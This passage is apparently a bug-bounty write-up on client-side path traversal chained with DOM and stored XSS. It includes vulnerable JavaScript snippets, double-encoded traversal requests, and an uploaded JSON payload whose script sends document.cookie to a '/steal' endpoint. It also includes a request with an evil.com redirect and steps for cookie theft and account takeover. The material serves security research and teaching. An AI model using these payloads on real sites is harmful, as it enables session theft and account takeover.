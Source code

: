    - **Exploitation Steps**:
     1. Encoding bypasses sanitization.
     2. Traverse to OAuth endpoint, inject malicious state.
     3. Trigger XSS for cookie theft and ATO, including browser URL leak in Opera/OAuth sync.
   - **Impact and Bounty**: High severity, $8k reward. Similar to Grafana's CVE-2025-4123 with XSS and SSRF.

2. **DOM XSS with JSON Injection and File Upload Chaining (Example: Reverb and Acronis Similar)**:
   - **Vulnerability Detail**: Traversal to uploaded file creates stored XSS. Common in 2025 with file upload bypass escalation.
   - **Code Snippet (Vulnerable Fetch and Upload)**:
     ```
     // Upload Handler (Client-Side)
     async function uploadFile(file) {
       const formData = new FormData();
       formData.append('file', file);
       const response = await fetch('/api/upload', { method: 'POST', body: formData });
       const { path } = await response.json();  // Returned path unsanitized
       loadContent(`../attachments/${path}`);  // Traversal sink
     }

     function loadContent(traversalPath) {
       fetch(`/embed/${traversalPath}`).then(res => res.json()).then(data => {
         document.getElementById('container').innerHTML = data.payload;  // DOM XSS
       });
     }
     ```
   - **HTTP Request Examples**:
     - Upload:
       ```
       POST /api/upload HTTP/1.1
       Host: target.com
       Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
       
       ------WebKitFormBoundary
       Content-Disposition: form-data; name="file"; filename="malicious.json"
       
       {"payload": "<script>fetch('/steal?cookie=' + document.cookie)</script>"}
       ------WebKitFormBoundary--
       ```
     - Traversal:
       ```
       GET /embed/../%252e%252e/uploads/malicious.json HTTP/1.1
       Host: sandbox.target.com
       ```
   - **Exploitation Steps**:
     1. Upload malicious JSON with XSS payload.
     2. Double-encoding traversal accesses file.
     3. JSON parsing and DOM injection trigger XSS, potentially chaining to CSRF.
   - **Impact and Bounty**: Critical, $5k-10k range. Similar CSRF chaining in Acronis Cloud and self-XSS escalations.

3. **Stored XSS with Open Redirect Chaining (Example: Fandom and GitLab Similar)**:
   - **Vulnerability Detail**: Tabview parser traversal leads to persistent XSS, often chained with redirects. Earned $6,580 in GitLab reports.
   - **Code Snippet**:
     ```
     const tabPath = new URL(window.location).searchParams.get('tab') || 'default';
     const content = await fetch(`/load/tab/${tabPath}`).then(res => res.text());
     const parser = new DOMParser();
     document.body.append(parser.parseFromString(content, 'text/html').body);  // Stored injection
     ```
   - **HTTP Request Example**:
     ```
     GET /page?tab=../%5c../stored/xss_payload.wikitext&redirect=https://evil.com HTTP/1.1
     Host: community.target.com